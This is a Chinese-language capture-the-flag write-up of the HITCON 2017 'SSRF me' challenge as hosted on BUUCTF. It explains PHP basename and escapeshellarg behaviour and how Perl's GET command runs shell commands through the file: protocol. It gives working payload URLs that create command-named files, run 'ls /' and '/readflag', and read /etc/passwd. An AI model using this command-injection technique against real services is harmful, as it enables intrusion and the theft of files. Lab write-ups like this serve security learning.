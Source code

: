 知识点：

1. ssrf

2. perl



参考链接：

https://lihuaiqiu.github.io/2019/07/13/BUUCTF-Writeup-%E4%B8%80/

http://chenxiyuan.vip/2019/07/29/BUUCTF-web-writeup-%E4%BA%8C/



代码如下：

```javascript
<?php
  if (isset($_SERVER['HTTP_X_FORWARDED_FOR'])) {
    $_SERVER['REMOTE_ADDR'] = $_SERVER['HTTP_X_FORWARDED_FOR'];
  }
  $sandbox = "sandbox/" . md5("orange" . $_SERVER["REMOTE_ADDR"]);
  @mkdir($sandbox);
  @chdir($sandbox);

   $data = shell_exec("GET " . escapeshellarg($_GET["url"]));
   $info = pathinfo($_GET["filename"]);
   $dir  = str_replace(".", "", basename($info["dirname"]));
   @mkdir($dir);
   @chdir($dir);
   @file_put_contents(basename($info["basename"]), $data);
   highlight_file(__FILE__);
```

原题为HITCON 2017，这段代码大概意思为，首先通过XFF判断用户ip,建立沙盒，并且通过GET传入url和filename两个参数，通过filename建立新的目录以及文件名，通过url进行shell_exec的GET命令执行，最终把执行的结果放在新生成的目录下的文件名中。

首先来研究一下pathinfo函数以及basename函数的机制

![](images/0F91B285459747C39648CCA7AD995062Z2sbAs.png)

basename() 函数返回路径中的文件名部分,对于如下代码：

```javascript
<?php
$path = "/testweb/home.php";

//显示带有文件扩展名的文件名
echo basename($path);   //home.php

//显示不带有文件扩展名的文件名
echo basename($path,".php");  //home
?>
```



代码对于想要建立的目录都会进行两边basename，对于如下代码做下实验：

```javascript
<?php
    $data = shell_exec("GET " . escapeshellarg($_GET["url"]));
    $info = pathinfo($_GET["filename"]);
    $dir  = str_replace(".", "", basename($info["dirname"]));
    echo $dir;	
    echo $info["dirname"]; //$c
    echo "/n";
    echo basename($info['basename']);
```

如果filename为/a或者a这样的形式，basename($info['basename']);肯定是为a的，此时的目录为当前目录，再次用basename返回路径中的文件名肯定为空。如果为a/xxx/，$c和$dir返回的都是a，解释一下原因：第一次返回的basename为a其实相当于./a，那么第二次再用basename返回的文件名肯定也是a。那么比较透彻的理解了这个函数，下面的也更好做一写了。

escapeshellarg与escapeshellcmd函数

escapeshellarg

1.确保用户只传递一个参数给命令

2.用户不能指定更多的参数一个

3.用户不能执行不同的命令

其实我的理解就是把传入的字符串加单引号，如果我传入的是ls，那么经过函数操作后就变成了'ls'。同时会对传入的单引号进行一些安全处理，例如传入l's，那么经过处理就会变成

'l'\''s'。但是结合了escapeshellcmd就会造成一些危险的问题。函数简单介绍如下：

1.确保用户只执行一个命令

2.用户可以指定不限数量的参数

3.用户不能执行不同的命令

其作用也就是将一些危险符号进行转义，如

|   |   |
| - | - |
| 1 | &amp;，|，；，\\ ` |


下面会有详解。

GET命令漏洞

根本原因还是在于perl的GET函数底层实际上调用的是open处理，而在perl中，open是可以执行系统命令的。

```javascript
root@iZuf6420mwa64xegn82ysrZ:~# cat 1.pl
open(FD,"|id");
print <FD>;
root@iZuf6420mwa64xegn82ysrZ:~# perl 1.pl
uid=0(root) gid=0(root) groups=0(root)
```

从这段命令我们可看出来perl中open的作用。同时open是支持file协议的



```javascript
The library supports GET and HEAD methods for file requests.  The
"If-Modified-Since" header is supported.  All other headers are
ignored.  The I<host> component of the file URL must be empty or set
to "localhost".  Any other I<host> value will be treated as an error.
Directories are always converted to an HTML document.  For normal
files, the "Content-Type" and "Content-Encoding" in the response are
guessed based on the file suffix.
Example:
  $req = HTTP::Request->new(GET => 'file:/etc/passwd');
```

尝试一下file协议读取 GET 'file:/etc/passwd'或者GET '/etc/passwd'，都可以成功读取出文件内容。下面来尝试下执行系统命令。

```javascript
root@iZuf6420mwa64xegn82ysrZ:~# touch 'ls|'
root@iZuf6420mwa64xegn82ysrZ:~# GET 'file:ls|'
```

通过以上命令成功执行。这里需要注意的是必须要有存在的文件名才能成功执行命令，所以在上面建立了一个ls|文件。

那么这道题的思路就是建立命令执行的文件名，再通过file协议去执行就可以了

首先先看一下大概目录

通过Payload url=/&filename=xxx，然后访问沙盒里面的xxx文件





1. 首先获取目录下文件：

```javascript
#先建个文件
http://web7.buuoj.cn/?url=&filename=bash -c 'ls /'|
#执行命令后输出到chenxiyuan
http://web7.buuoj.cn/?url=file:bash -c 'ls /'|&filename=chenxiyuan
#访问
http://web7.buuoj.cn/sandbox/99ca4e36b9277744c847e190081f7fed/chenxiyuan

此处的MD5字符串为自己orang+自己ip加密得到
```



![](images/2618DCD438A244889804119E1DE2428Cclipboard.png)



2. 应该是执行/readflag来读取flag了,继续构造payload:

```javascript
#创建文件
http://web7.buuoj.cn/?url=&filename=bash -c /readflag|
#执行命令输出到flag
http://web7.buuoj.cn/?url=file:bash%20-c%20/readflag|&filename=flag
#访问
http://web7.buuoj.cn/sandbox/99ca4e36b9277744c847e190081f7fed/flag
```

